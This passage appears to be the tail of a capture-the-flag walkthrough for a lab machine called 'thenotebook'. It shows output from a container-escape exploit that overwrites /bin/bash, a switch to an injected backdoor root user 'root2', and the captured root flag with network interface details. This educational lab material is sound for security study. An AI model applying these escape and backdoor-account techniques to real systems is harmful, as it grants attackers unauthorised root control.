 Session 1:

```bash
...
[+] Overwritten /bin/bash successfully
 < exploit paused >
[+] Found the PID: 34
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000a8180}
```

Finally it was escalated to root switching to the injected `root2` user:

```bash
noah@thenotebook:~$ su root2
Password: evil
root@thenotebook:/home/noah# id && hostname && cat /root/root.txt && ifconfig -a
uid=0(root) gid=0(root) groups=0(root)
thenotebook
2328e98b072c67c6d418ae24d00523d3
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:d6:10:3f:8a  txqueuelen 0  (Ethernet)
        RX packets 12886  bytes 699043 (699.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19288  bytes 32590700 (32.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.230  netmask 255.255.255.0  broadcast 10.10.10.255
        ether 00:50:56:b9:d5:cf  txqueuelen 1000  (Ethernet)
        RX packets 39715  bytes 36782225 (36.7 MB)
        RX errors 0  dropped 171  overruns 0  frame 0
        TX packets 35339  bytes 2907270 (2.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4  bytes 200 (200.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 200 (200.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth9864dad: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 32:f8:e1:c2:77:95  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13  bytes 546 (546.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethff601c6: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether da:d1:0c:17:2a:4b  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
